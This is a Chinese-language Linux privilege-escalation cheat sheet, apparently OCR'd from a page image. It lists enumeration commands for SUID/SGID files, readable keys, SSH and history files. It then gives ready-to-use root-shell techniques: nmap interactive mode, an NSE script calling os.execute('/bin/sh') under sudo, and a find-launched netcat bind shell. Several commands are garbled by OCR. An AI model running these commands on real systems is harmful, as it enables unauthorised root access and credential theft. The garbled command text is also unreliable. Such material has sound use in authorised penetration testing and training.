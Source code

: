 <table width="677"><thead><tr><th><strong>命令</strong></th><th><strong>结果</strong></th><th><br></th><th><br></th><th><br></th></tr></thead><tbody><tr><td>find / -perm -4000 -type f 2&gt;/dev/null</td><td>查找 SUID 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -uid 0 -perm -4000 -type f 2&gt;/dev/null</td><td>查找 root 拥有的 SUID 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -perm -2000 -type f 2&gt;/dev/null</td><td>查找 SGID 文件（粘性位）</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / ! -path “/proc/“-perm -2 -type f -print 2&gt;/dev/null</td><td>查找世界可写文件，不包括 proc 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -type f ‘(‘ -name&nbsp;.cert -or -name&nbsp;.crt -or -name&nbsp;.pem -or -name&nbsp;.ca -or -name&nbsp;.p12 -or -name&nbsp;.cer -name&nbsp;.der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2&gt; /dev/null-or -name&nbsp;.cer -name *.der ‘)’ 2&gt; /dev/null</td><td>查找您可以阅读的密钥或证书</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /home –name *.rhosts -print 2&gt;/dev/null</td><td>查找 rhost 配置文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /etc -iname hosts.equiv -exec ls -la {} 2&gt;/dev/null ; -exec cat {} 2&gt;/dev/null ;</td><td>查找 hosts.equiv，列出权限并管理文件内容</td><td><br></td><td><br></td><td><br></td></tr><tr><td>cat ~/.bash_history</td><td>显示当前用户历史记录</td><td><br></td><td><br></td><td><br></td></tr><tr><td>ls -la ~/.*_history</td><td>向当前用户分发各种历史文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>ls -la ~/.ssh/</td><td>检查当前用户的 ssh 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /etc -maxdepth 1 -name ‘.conf’ -type f 要么 ls -la /etc/.conf</td><td>在 / etc 中列出配置文件（深度 1，在第一个命令中修改 maxdepth 参数以对其进行更改）</td><td><br></td><td><br></td><td><br></td></tr><tr><td>lsof</td><td>grep ‘/home/\</td><td>/etc/\</td><td>/opt/‘</td><td>显示可能有趣的打开文件</td></tr></tbody></table>

也可以使用 sudo -l 命令列出当前用户可执行的命令

### 常用提权方式

**nmap**

find / -perm -u = s -type f 2> / dev / null –查找设置了 SUID 位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认 nmap 是否设置了 SUID 位。

Nmap 的 SUID 位置 1。很多时候，管理员将 SUID 位设置为 nmap，以便可以有效地扫描网络，因为如果不使用 root 特权运行它，则所有的 nmap 扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行 nmap，从而可以转至 shell。如果 nmap 设置了 SUID 位，它将以 root 特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行 nmap 交互模式！sh –我们可以从 nmap shell 转到系统 shell

**msf** 中的模块为：

exploit/unix/local/setuid_nmap

**较新版可使用 —script 参数：**

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

**find**

touch test

**nc** **反弹 shell：**

find test -exec netcat -lvp 5555 -e /bin/sh \;

**vi/vim**

Vim 的主要用途是用作文本编辑器。但是，如果以 SUID 运行，它将继承 root 用户的权限，因此可以读取系统上的所有文件。

打开 vim, 按下 ESC
